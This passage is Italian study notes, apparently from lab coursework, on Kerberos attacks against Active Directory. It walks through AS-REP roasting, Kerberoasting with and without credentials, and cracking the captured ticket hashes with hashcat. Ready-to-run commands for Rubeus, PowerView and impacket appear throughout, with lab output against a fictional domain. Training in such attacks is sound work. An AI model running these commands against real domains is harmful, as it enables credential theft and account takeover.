Speed.#1.........:   827.0 kH/s (13.72ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 0/28688770 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[2321686f74746965] -> $HEX[042a0337c2a156616d6f732103]
```

#### Se si hanno delle credenziali
```
$ GetNPUsers.py inlanefreight.local/htb-student:'HTB_@cademy_stdnt!' -dc-ip 10.129.55.56 -request -format hashcat -outputfile hashes.txt
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Name         MemberOf  PasswordLastSet             LastLogon                   UAC      
-----------  --------  --------------------------  --------------------------  --------
amber.smith            2023-03-30 08:40:23.135840  2023-04-06 06:48:23.096956  0x410200 
jenna.smith            2022-10-14 07:00:00.581111  2023-04-06 06:48:23.096956  0x410200 
carole.rose            2022-10-14 07:00:03.377990  2023-04-06 06:48:23.096956  0x410200

$krb5asrep$23$amber.smith@INLANEFREIGHT.LOCAL:c13f661c041b3252d36a8a19b0685ad3$bf2b5b6071302642a935274f1a78d7bd46b7fc821ebd06df8ba3844e4eed3ac8b3835affcde4dc8de3f7d1ac1d3eca0c727ad2e7178882275b01497646cf79fa1db35f0fa5c2c77a64511fac6c1b1fbfdf5fd7125a124c6d16bb261c7e267efdcbfd28b3a2f982e00983b7e170907ffc930f89b0ea2b7d2001ed7414fb129e05514410d750bac6cc8a474107fb621f741d89f2a6eb3fa43bcde64d9f1ca66437e782c242659aacb1d64d9455791af03268bef65c17f18f84cdfa3c39f0a56dea835ea1b6657f0dd887e193b8c37b0495747a5f31b013fd24a38f41c8085b7aac38abb5fcfbc2f027b17d844afa2f017c8070958273b8029f7e93
$krb5asrep$23$jenna.smith@INLANEFREIGHT.LOCAL:7598ef94b7667d69d12648845d469026$3c5b29e4ed88fa557e1e7131b140389841492a0376e497d22625829197faafab0412c2eb3d69af56eae4c924618f298b778c177572776aac06c7aec4a895aec883831689baa1af9285c71cd8e2e0c405aed97594cc333705aad5a42c3db901389253e9ba1fb08ea92deaaa3870d58626fcfc4cf0c30a571b9ad4c8aa5e23ea9e58565bf7885782ea4a421f4fd46e56834044c4932cda4a36f27e8ab9f4a10784ff2b4590ebd717da8ca024eda112059d1f148f2105fb508881382959a343ea32d7f0c8c05bb8c88c6e8e992181d3a59e1616d55c8c8d0a53e4adb7dd0da7baefefc7ff2c44384fd5d63a70e377d864905a465952c2de52d68451
$krb5asrep$23$carole.rose@INLANEFREIGHT.LOCAL:8835c4a4e52a7fe1b845d89197249116$0ad8c00c22adf993bd4aef2e16de499ef913baa4f1c72425dc8e6f3ad297555bb8f6c5cb6f9a28b9a42d478747ab3095b398b5f9b4b62a1c275a7d62d1efdd5a3dae38e2ec3acb9e952367ed32cd786eccac944ef70116ff77f291cc113e4cf1c01b984b9d24be701dee7cef313957412031d23571cb99ca3472db19aa4203336a9f5b545f8f385822cd0df241b45e7ec0039780407b3a053d2a89993ecfa208d8ea3dbbe724bca69acf77628bad4b80b7651b1172fda266c69e346d1917efb3c59484b1d614f88a63fc9f08bf04a617b1a93d708f2b43c827ca7f941b689fa1a4de27a3cebfdd7652efb25d42d22f1a8c873bf68aebeeedd841
```


## Kerberoasting
In modo simile, quando un utente ha un TGT, può richiedere un Service Ticket per qualsiasi servizio esistente. La risposta del KDC (TGS-REP) contiene informazioni cifrate con il segreto del service account. Se il service account ha una password debole, è possibile eseguire lo stesso tipo di attacco brute-force offline per recuperare la password di quell'account.

Attacco contro gli account di servizio che consente a un malintenzionato di eseguire un attacco di cracking della password offline contro l'account di Active Directory associato al servizio. È simile ad ASREPRoasting, ma richiede l'autenticazione preventiva al dominio. In altre parole, è necessario un account utente di dominio valido e una password (anche con i privilegi più bassi) oppure una shell SYSTEM (o un account di dominio con privilegi limitati) su una macchina aggiunta al dominio per eseguire l'attacco.

### Cos'è un SPN?
Un Service Principal Name (SPN) è essenzialmente un identificatore univoco per un servizio in una rete Windows. Funziona come un "cartellino del nome" che dice a Kerberos (il protocollo di autenticazione di Windows): "questo servizio gira su questo computer, su questa porta, e appartiene a questo account AD".
Cosa viene memorizzato in AD per ogni SPN:
- Nome del computer/server
- Porta del servizio
- L'hash della password dell'account AD associato

#### Account di Servizio vs Account Utente


> Il problema nasce proprio qui: configurare un account di servizio è complesso, quindi spesso gli amministratori (o i vendor) usano semplicemente un account utente normale per comodità. Questo crea un rischio.

Quando un SPN è associato a un account utente, chiunque nel dominio può richiedere a Kerberos un ticket di servizio (TGS) per quell'SPN. Quel ticket è cifrato con l'hash della password dell'account.
Il flusso di un attacco è:
```
1. Attaccante trova SPN associato ad account utente
2. Richiede il ticket TGS a Kerberos (operazione legittima!)
3. Esporta il ticket cifrato
4. Tenta di craccare l'hash OFFLINE (senza fare rumore in rete)
5. Se la password è debole → accesso all'account compromesso
```
Kerberoasting è particolarmente insidioso perché la fase di richiesta del ticket è completamente legittima e difficile da distinguere dal traffico normale.


#### Dettagli
Quando il KDC risponde a una richiesta TGS, invia il seguente messaggio:



Questo messaggio è completamente crittografato con la chiave di sessione condivisa tra l'utente e il KDC, quindi l'utente può decifrarlo perché la conosce. Tuttavia, il ticket TGS o Service Ticket (ST) incorporato è crittografato ```con la chiave segreta del service account```. L'utente, quindi, ha un pezzo di dato cifrato con la password del service account.

- Un utente può richiedere tutti i servizi Service Ticket (ST) disponibili presenti nell'ambiente Active Directory e ottenere i relativi ticket cifrati con la chiave segreta di ogni service account.
- Quando si dispone di una Service Ticket (ST) crittografata con la password di un account di servizio, l'utente può eseguire un attacco di forza bruta offline per tentare di recuperare la password in chiaro.
- Però, la maggior parte dei servizi viene eseguita da account macchina (COMPUTERNAME$), che hanno password generate casualmente lunghe 120 caratteri, rendendo impraticabile l'attacco di forza bruta.
- Ma, a volte i servizi sono gestiti da terzi user accounts. Questi sono i servizi che ci interessano. Un account utente ha una password impostata da una persona, che è molto più prevedibile. Questi sono gli account presi di mira dall'attacco Kerberoast. Quando gli account SPN sono configurati per utilizzare l'algoritmo di crittografia RC4, i ticket possono essere molto più facili da decifrare offline. Potremmo imbatterci in organizzazioni che utilizzano solo il vecchio algoritmo di crittografia RC4, crittograficamente insicuro. Al contrario, altre organizzazioni più mature utilizzano solo AES (Advanced Encryption Standard), che può essere molto più difficile da decifrare, anche con un robusto sistema di cracking delle password.

#### Controllo Manuale
Si cercano gli account utente (non gli account macchina) che espongono un servizio. Un account che espone un servizio ha un Service Principal Name (o SPN). Si tratta di un attributo LDAP impostato sull'account che indica l'elenco dei servizi esistenti forniti da tale account. Se questo attributo non è vuoto, l'account offre almeno un servizio.

Filtro LDAP per cercare gli utenti che espongono un servizio:
```
&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```
Questo filtro restituisce un elenco di utenti con un SPN non vuoto. Un piccolo script PowerShell ci permette di automatizzare la ricerca di questi account in un ambiente:
```
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-host "User" 
    Write-Host "===="
    Write-Host $userEntry.name "(" $userEntry.distinguishedName ")"
        Write-host ""
    Write-host "SPNs"
    Write-Host "===="     
    foreach($SPN in $userEntry.servicePrincipalName)
    {
        $SPN       
    }
    Write-host ""
    Write-host ""
}
```
Questo script si connette al Domain Controller e cerca tutti gli oggetti che corrispondono al filtro specificato. Ogni risultato mostra il suo nome (Distinguished Name) e l'elenco degli SPN associati a tale account.
```
PS C:\Users\pixis> .\FindSPNAccounts.ps1

Users
====
krbtgt ( CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL )
SPNs
====
kadmin/changepw

User
====
sqldev ( CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL )
SPNs
====
MSSQL_svc_dev/inlanefreight.local:1443

User
====
sqlprod ( CN=sqlprod,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL )
SPNs
====
MSSQLSvc/sql01:1433

User
====
sqlqa ( CN=sqlqa,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL )
SPNs
====
MSSQL_svc_qa/inlanefreight.local:1443

User
====
sql-test ( CN=sql-test,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL )
SPNs
====
MSSQL_svc_test/inlanefreight.local:1443
```

Questo script ci permette di avere un elenco di account Kerberostable, ma non esegue una richiesta TGS e non estrae l'hash che potremmo poi forzare con un attacco a forza bruta.

> Possiamo anche utilizzare il programma binario ```Setspn``` integrato in Windows per cercare gli account SPN.

#### Strumenti Automatizzati
```PowerView``` può essere utilizzato per enumerare gli utenti con un SPN impostato e richiedere il Service Ticket (ST)automaticamente ed avere l'hash.

**Enumerare gli SPN con PowerView**
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -SPN

logoncount                    : 0
badpasswordtime               : 12/31/1600 8:00:00 PM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
name                          : krbtgt
primarygroupid                : 513
objectsid                     : S-1-5-21-228825152-3134732153-3833540767-502
samaccountname                : krbtgt
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
showinadvancedviewonly        : True
accountexpires                : NEVER
cn                            : krbtgt
whenchanged                   : 5/4/2022 8:04:31 PM
instancetype                  : 4
objectguid                    : a68bfed4-1ccf-4b62-8efa-63b32841c05d
lastlogon                     : 12/31/1600 8:00:00 PM
lastlogoff                    : 12/31/1600 8:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=inlanefreight,DC=local
dscorepropagationdata         : {5/4/2022 8:04:31 PM, 5/4/2022 7:49:22 PM, 1/1/1601 12:04:16 AM}
serviceprincipalname          : kadmin/changepw
memberof                      : CN=Denied RODC Password Replication Group,CN=Users,DC=inlanefreight,DC=local
whencreated                   : 5/4/2022 7:49:21 PM
iscriticalsystemobject        : True
badpwdcount                   : 0
useraccountcontrol            : ACCOUNTDISABLE, NORMAL_ACCOUNT
usncreated                    : 12324
countrycode                   : 0
pwdlastset                    : 5/4/2022 3:49:21 PM
msds-supportedencryptiontypes : 0
usnchanged                    : 12782
<SNIP>
```

Ma si può anche utilizzare PowerView per eseguire direttamente l'attacco Kerberoasting:
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Invoke-Kerberoast

SamAccountName       : adam.jones
DistinguishedName    : CN=Adam Jones,OU=Operations,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : IIS_dev/inlanefreight.local:80
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*adam.jones$INLANEFREIGHT.LOCAL$IIS_dev/inlanefreight.local:80*$D7C42CD87BEF69BA275C9642BBEA9022BE3C1<SNIP>

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_dev/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local:1443*$29A78F89AC24EADBB4532DF066B90F1D808A5<SNIP>

SamAccountName       : sqlqa
DistinguishedName    : CN=sqlqa,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_qa/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlqa$INLANEFREIGHT.LOCAL$MSSQL_svc_qa/inlanefreight.local:1443*$895B5A094F49081330D4AEA7C1254F37EEAD7<SNIP>

SamAccountName       : sql-test
DistinguishedName    : CN=sql-test,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQL_svc_test/inlanefreight.local:1443
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sql-test$INLANEFREIGHT.LOCAL$MSSQL_svc_test/inlanefreight.local:1443*$68F3B21822B3C16D272F38A5658E20F580037<SNIP>

SamAccountName       : sqlprod
DistinguishedName    : CN=sqlprod,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/sql01:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlprod$INLANEFREIGHT.LOCAL$MSSQLSvc/sql01:1433*$EE29DA2458CA695EC2EDE568E9918909F7A05<SNIP>
```

Si può anche usare Rubeus per eseguire il Kerberosting su tutti gli utenti disponibili e restituire i loro hash per il cracking offline:
```
C:\Tools> C:\Tools>Rubeus.exe kerberoast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 6


[*] SamAccountName         : sqldev
[*] DistinguishedName      : CN=sqldev,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : MSSQL_svc_dev/inlanefreight.local:1433
[*] PwdLastSet             : 10/14/2022 7:00:06 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local:1433@INLANEFREIGHT.LOCAL*$21CF6BFCE5377C1FA957FC340261E6A3$22AC9C6E64F19D4E51E849A99DC4FC4FCE819E376045D1310393C7D26A42FFE50607C42A5F5E038E30867855091726D5E21FC0C6C49730EA32CE8BF95EB6158D30796D016CCF6BA7E5A8825DECFBD9D619917BC9BF7B2A6E53380563DDC5BF24DDEE8B38D5F869DE6682BA2C762520434027485919F8F364F8B9D84B91C3D1EA8EECA64F5C9690276A6211F5CE6C4AEA57ADB06188BE5E538DAC82C3F7EE708188B3E4FD452C06FA41022317E97E9B840B93E4A03E7429D60FC4F8EB7546597B516695BDEB010CA3FEB5A25E36BEC787044DFB19117616D76DAE523248DF55DC2513C05788B27BCE31A3FF38E820F63BB491ECCA2563799C9C4563576B22EEB703E09B68AA95EC50CD234BFDF479027415A58C48D024611E281DDD9355FFBF02BA277B10D6D5D347BFB751FA6101FFE915A<SNIP>
```

- Si può anche effettuare il Kerberos di un utente specifico e scrivere il risultato in un file utilizzando il flag ```/outfile:filename.txt```. Per esempio: ```.\Rubeus.exe kerberoast /outfile:hashes.txt /user:jacob.kelly```.
-  SI può utilizzare gli argomenti ```/pwdsetaftere``` e ```/pwdsetbefore``` per gli account Kerberos la cui password è stata impostata entro una data specifica; questo può esserci utile, perchè a volte si trovano account legacy con una password impostata molti anni fa che non rientra nell'attuale policy delle password ed è relativamente facile da decifrare.
- Si può utilizzare questo ```/statsflag``` per visualizzare le statistiche relative agli account Kerberostable senza inviare alcuna richiesta di ticket. Ciò può essere utile per raccogliere informazioni e verificare i tipi di crittografia utilizzati dai ticket degli account.
- Il flag ```/tgtdeleg``` può essere utile in situazioni in cui troviamo account con le opzioni ```This account supports Kerberos AES 128-bit encryption``` o ```This account supports Kerberos AES 256-bit encryption```, il che significa che quando eseguiamo un attacco Kerberoast, otterremo un ticket AES-128 (type 17) o TGS AES-256 (type 18) che può essere significativamente più difficile da decifrare rispetto RC4 (type 23). Si capisce la differenza perché un ticket crittografato con RC4 restituirà un hash che inizia con il prefisso ```$krb5tgs$23$*```, mentre i ticket crittografati AES hanno un hash che inizia con ```$krb5tgs$18$*```.
- Nei casi in cui riceviamo l'hash dell'account con crittografia AES (che è più difficile da decifrare), possiamo utilizzare il flag ```/tgtdeleg``` con Rubeus per forzare la crittografia RC4. Questo potrebbe funzionare in alcuni domini in cui RC4 è integrato come misura di sicurezza per la compatibilità con i servizi più vecchi. In caso di successo, potremmo ottenere un hash della password che potrebbe essere decifrato minuti o addirittura ore più velocemente rispetto a un hash crittografato con AES.

#### Cracking dell'hash
Rubeus restituisce l'elenco degli hash associati ai diversi ticket TGS o Service Tickets (STs). Tutto ciò che resta da fare è usare hashcat per provare a recuperare la password in chiaro associata a questi account. La modalità hash di Hashcat da utilizzare è 13100 (Kerberos 5, etype 23, TGS-REP).

```
C:\Tools\hashcat-6.2.6> hashcat.exe -m 13100 C:\Tools\kerb.txt C:\Tools\rockyou.txt -O

hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: AMD EPYC 7401P 24-Core Processor, 2015/4094 MB (511 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 6 digests; 6 unique digests, 6 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: C:\Tools\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*jacob.kelly$INLANEFREIGHT.LOCAL$SVC/FILER02.inlanefreight.local@INLANEFREIGHT.LOCAL*$ac3b7a50ae9b3af123888b5722c56665$cdc909a1608c1fe4e14787df6203799f26a<SNIP>
```


#### Kerberoasting senza password dell'account
Esiste un caso in cui è possibile eseguire un attacco Kerberoasting senza un account di dominio e una password validi (o shell SYSTEM/shell come account con privilegi limitati su un host aggiunto al dominio). Ciò è possibile quando si conosce un account senza pre-autenticazione Kerberos abilitata. È possibile utilizzare questo account per utilizzare una richiesta AS-REQ (solitamente utilizzata per richiedere un TGT) per richiedere un ticket TGS per un utente vulnerabile a Kerberoasting. Questo viene fatto modificando la parte req-body della richiesta.

Per eseguire questo attacco, abbiamo bisogno di:
- Nome utente di un account con pre-autenticazione disabilitata ( DONT_REQ_PREAUTH).
- Un SPN di destinazione o un elenco di SPN.
Per simulare l'assenza di autenticazione, utilizzeremo Rubeus ```createnetonly``` e la sua finestra CMD per eseguire l'attacco.

```
C:\Tools> Rubeus.exe createnetonly /program:cmd.exe /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Create Process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : FQW21FKC
[*] Domain          : KNVRD2SG
[*] Password        : IL6X2VCC
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 6428
[+] LUID            : 0x10885a
```
Questo apre un cmd.exe con credenziali completamente false e casuali (es. FQW21FKC / IL6X2VCC). Simula la condizione di non avere alcuna autenticazione di dominio valida. Il risultato è una shell "anonima" dal punto di vista del dominio.

Dalla nuova finestra del prompt dei comandi che si aprirà, effettueremo l'attacco; se proviamo a eseguire l'opzione Kerberoast, fallirà perché non siamo autenticati:

```
C:\Tools> Rubeus.exe kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Kerberoasting


[!] Unhandled Rubeus exception:

System.DirectoryServices.ActiveDirectory.ActiveDirectoryOperationException: Current security context is not associated with an Active Directory domain or forest.
   at System.DirectoryServices.ActiveDirectory.DirectoryContext.GetLoggedOnDomain()
   at System.DirectoryServices.ActiveDirectory.DirectoryContext.IsContextValid(DirectoryContext context, DirectoryContextType contextType)
   at System.DirectoryServices.ActiveDirectory.DirectoryContext.isDomain()
   at System.DirectoryServices.ActiveDirectory.Domain.GetDomain(DirectoryContext context)
   at Rubeus.Commands.Kerberoast.Execute(Dictionary`2 arguments)
   at Rubeus.Domain.CommandCollection.ExecuteCommand(String commandName, Dictionary`2 arguments)
   at Rubeus.Program.MainExecute(String commandName, Dictionary`2 parsedArgs)
```

Ora, se includiamo un utente con ```DONT_REQ_PREAUTH``` tipo ```amber.smith``` e un ```SPN``` come ```MSSQLSvc/SQL01:1433```, verrà restituito un ticket:

```
C:\Tools> Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Kerberoasting

[*] Using amber.smith without pre-auth to request service tickets

[*] Target SPN             : MSSQLSvc/SQL01:1433
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (172.16.99.3)
[*] Hash                   : $krb5tgs$23$*MSSQLSvc/SQL01:1433$inlanefreight.local$MSSQLSvc/SQL01:1433*$7E08E831C13A2EEAEA47C13ECD378E8D$D6E591A4AB495AFEE4BD9E893A39C7B9E77C3D7759D9923<SNIP>
```

Qui Rubeus:
- Costruisce un AS-REQ modificato usando amber.smith (che non richiede pre-auth)
- Invece di chiedere un TGT, modifica il corpo della richiesta per ottenere un TGS per MSSQLSvc/SQL01:1433
- Il KDC risponde con il ticket cifrato con l'hash della password dell'account SQL
- Rubeus restituisce l'hash in formato crackabile offline (```$krb5tgs$23$*...*```)

> Nota: Invece di /spn possiamo usare /spns:listofspn.txt per provare più SPN.

##### Perchè è pericolo?


> Si tratta di un attacco non autenticato: basta conoscere il nome di un account con DONT_REQ_PREAUTH (informazione spesso ricavabile anche senza credenziali tramite enumerazione LDAP anonima) per ottenere hash crackabili di altri account di servizio.

##### AS-REP Roasting vs Kerberoasting senza credenziali
**AS-REP Roasting — l'attacco "diretto"**

Qui si sfrutta DONT_REQ_PREAUTH per attaccare l'account vulnerabile stesso.



L'obiettivo è amber.smith. La vulnerabilità è su amber.smith.

**Kerberoasting senza credenziali — l'attacco "indiretto"**

Qui invece usi amber.smith solo come trampolino per attaccare un altro account.
- Il problema è questo: per fare Kerberoasting classico devi essere autenticato nel dominio. Ma tu non hai credenziali. Quindi come fai?
- Sfrutti il fatto che amber.smith non richiede pre-autenticazione per fingere di essere lei e fare una richiesta TGS per un account di servizio completamente diverso:



L'obiettivo è l'account SQL. Amber.smith è solo il mezzo per sembrare autenticato.


La differenza sta in cosa ottieni e cosa vuoi craccare:
- AS-REP Roasting → ottieni l'hash di amber.smith → vuoi la password di amber.smith
- Kerberoasting senza credenziali → ottieni l'hash dell'account SQL → vuoi la password dell'account SQL, e di amber.smith non ti importa nulla


#### Kerberoasting from Linux
Per eseguire l'operazione Kerberoasting da Linux, si può utilizzare ```GetUserSPNs.py``` della suite impacket . Questo strumento è in grado di cercare tutti gli account Kerberostable, estrarre i dati crittografati con la password dell'account di servizio e restituire un hash compatibile con hashcat per ulteriori analisi.

L'esecuzione ```GetUserSPNs.py``` senza parametri produrrà un output simile allo script Powershell ```FindSPNAccounts.ps1```.

```
Nanan@htb[/htb]$ GetUserSPNs.py inlanefreight.local/pixis

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName                     Name        MemberOf                                               PasswordLastSet             LastLogon  Delegation    
---------------------------------------  ----------  -----------------------------------------------------  --------------------------  ---------  -------------
MSSQL_svc_dev/inlanefreight.local:1443   sqldev      CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:20.558388  <never>    unconstrained 
MSSQLSvc/sql01:1433                      sqlprod     CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:27.558399  <never>                  
MSSQL_svc_qa/inlanefreight.local:1443    sqlqa       CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL    2020-07-27 20:46:33.792787  <never>                  
MSSQL_svc_test/inlanefreight.local:1443  sql-test                                                           2020-07-27 20:47:07.574105  <never>                  
IIS_dev/inlanefreight.local:80           adam.jones                                                         2020-07-27 21:35:57.069094  <never>
```

Siccome si vede che esistono degli account Kerberoastable, si può richiederne un ticket TGS per il Service Ticket (ST) di ognuno di essi e ottenere un hash decifrabile nel formato di hashcat (e di John the Ripper) con l'argomento ```-request```.

```
Nanan@htb[/htb]$ GetUserSPNs.py inlanefreight.local/pixis -request

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName                     Name        MemberOf                                               PasswordLastSet             LastLogon  Delegation    
---------------------------------------  ----------  -----------------------------------------------------  --------------------------  ---------  -------------
MSSQL_svc_dev/inlanefreight.local:1443   sqldev      CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:20.558388  <never>    unconstrained 
MSSQLSvc/sql01:1433                      sqlprod     CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2020-07-27 20:46:27.558399  <never>                  
MSSQL_svc_qa/inlanefreight.local:1443    sqlqa       CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL    2020-07-27 20:46:33.792787  <never>                  
MSSQL_svc_test/inlanefreight.local:1443  sql-test                                                           2020-07-27 20:47:07.574105  <never>                  
IIS_dev/inlanefreight.local:80           adam.jones                                                         2020-07-27 21:35:57.069094  <never>                  


$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local~1443*$f06349cf7220c21cde1236e53a491a67$c4c2079e9b<SNIP>
$krb5tgs$23$*sqlprod$INLANEFREIGHT.LOCAL$MSSQLSvc/sql01~1433*$577b69c3a2abcff0fc3318fd94f90014$9272d9d177c6147a1b773ba12f95<SNIP>
$krb5tgs$23$*sqlqa$INLANEFREIGHT.LOCAL$MSSQL_svc_qa/inlanefreight.local~1443*$edaecbbcd610e2dd3ef39d6ea2cb3838$b5dbb92fb35b<SNIP>
$krb5tgs$23$*sql-test$INLANEFREIGHT.LOCAL$MSSQL_svc_test/inlanefreight.local~1443*$989e43ca34c03490e7de627135599ab4$832a1d7<SNIP>
$krb5tgs$23$*adam.jones$INLANEFREIGHT.LOCAL$IIS_dev/inlanefreight.local~80*$2b9cfebc5043606bbebb9f140bdf48cb$c05bf3d19a3e26<SNIP>
```

**Cracking**

Dopo che ```GetUserSPNs.py``` ha restituito l'elenco degli hash associati ai diversi Service Tickets (STs), si usa hashcat per provare a recuperare la password in chiaro associata a questi account utilizzando hash-mode ```13100 (Kerberos 5, etype 23, TGS-REP)```.

```
Nanan@htb[/htb]$ hashcat -m 13100 hashes.txt rockyou.txt

hashcat (v5.1.0) starting...
<SNIP>
$krb5tgs$23$*sqlqa$INLANEFREIGHT.LOCAL$MSSQL_svc_qa/inlanefreight.local~1443*$edaecbbcd<SNIP>ec0ef:Welcome1
$krb5tgs$23$*sqlprod$INLANEFREIGHT.LOCAL$MSSQLSvc/sql01~1433*$577b69c3a2abcff0fc3318fd9<SNIP>7170c:Welcome1
$krb5tgs$23$*sql-test$INLANEFREIGHT.LOCAL$MSSQL_svc_test/inlanefreight.local~1443*$989e<SNIP>9f08c:Welcome1
$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQL_svc_dev/inlanefreight.local~1443*$f06349c<SNIP>173ca:Welcome1
<SNIP>
Session..........: hashcat
Status...........: Exhausted
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: hashes.txt
Time.Started.....: Wed Aug 12 15:24:44 2020 (20 secs)
Time.Estimated...: Wed Aug 12 15:25:04 2020 (0 secs)
Guess.Base.......: File (Tools/Cracking/Wordlists/Passwords/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   707.8 kH/s (11.43ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 4/5 (80.00%) Digests, 4/5 (80.00%) Salts
Progress.........: 71721925/71721925 (100.00%)
Rejected.........: 0/71721925 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:4 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[2321686f74746965] -> $HEX[042a0337c2a156616d6f732103]
```


### Attacchi sulla Kerberos Delegation
(Vedi Delegation.md per più informazioni)
- La Kerberos Delegation permette a un servizio di impersonare un utente per accedere a un'altra risorsa. L'autenticazione viene delegata e la risorsa finale risponde al servizio come se avesse i diritti del primo utente.
- Esistono diversi tipi di delegation, ognuno con proprie debolezze che possono permettere a un attaccante di impersonare utenti (a volte arbitrari) per sfruttare altri servizi. Gli attacchi trattati sono:
- Unconstrained Delegation
- Constrained Delegation
- Resource-Based Constrained Delegation (RBCD)


### Attacchi di Ticket Forging
